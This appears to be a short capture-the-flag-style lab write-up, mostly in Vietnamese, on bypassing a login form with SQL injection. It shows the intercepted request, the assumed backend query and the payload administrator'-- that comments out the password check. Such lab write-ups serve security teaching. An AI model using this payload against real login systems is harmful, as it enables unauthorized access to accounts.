

# SQL injection vulnerability allowing login bypass

# 1. Vulnerable

Hint:

    - This lab contains a `SQL injection` vulnerability in the login function.

    - To solve the lab, perform a `SQL injection` attack that logs in to the application as the `administrator` user.

Với bài này có lỗi SQLi ở phần login. Ta cần login as administrator thì ta sẽ hoàn thành bài lab

Thử login và xem những gì nhận được trên burp_suite



Ok vậy với username và password thì ta được đoạn mã:

```
csrf=FmeqJ8KhTkT9VtycxUdVRSjCtnuFqUrA&username=assdasdas&password=3123123123
```

Mã truy vẫn trên SQL sẽ như sau:

```
select name FROM users WHERE username = 'assdasdas' AND password = '3123123123'
```

Sẽ ra sao nếu ta filter khiến biến mất password biến mất

Thêm đoạn mã sau:

```
administrator'--
```

-> Đoạn check account sẽ trở thành:

```
select name FROM users WHERE username = 'administrator'--' AND password = '3123123123'
```

Như vậy ta sẽ đóng đoạn check và bỏ đi phần check password và chỉ check phần username

-> Login success


